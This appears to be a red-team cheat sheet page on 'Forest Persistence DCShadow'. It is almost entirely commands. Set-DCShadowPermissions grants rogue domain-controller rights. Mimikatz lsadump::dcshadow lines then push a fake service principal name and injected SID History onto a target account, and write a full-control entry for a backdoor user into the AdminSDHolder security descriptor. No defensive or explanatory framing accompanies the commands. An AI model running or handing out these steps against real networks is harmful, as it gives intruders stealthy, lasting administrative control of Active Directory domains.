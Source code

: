 ## Forest Persistence DCShadow



**1. Setting the permissions:**

```
# Setting the permissions
Set-DCShadowPermissions -FakeDC corp-user1 -SAMAccountName root1user -Username user1 -Verbose
```

**2. Use Mimikatz to stage the DCShadow attack:**

```
# Set SPN for user
lsadump::dcshadow /object:TargetUser /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"
# Set SID History for user
lsadump::dcshadow /object:TargetUser /attribute:SIDHistory /value:S-1-5-21-280565432-1493477821-700767426-345
# Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com")).psbase.ObjectSecurity.sddl
# Then get target user SID:
Get-NetUser -UserName BackdoorUser | select objectsid
# Add full control primitive for user
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=targetdomain,DC=com /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)[...currentACL...](A;;CCDCLCSWRPWPLOCRRCWDWO;;;[[S-1-5-21-280565432-1493477821-700767426-345]])
```
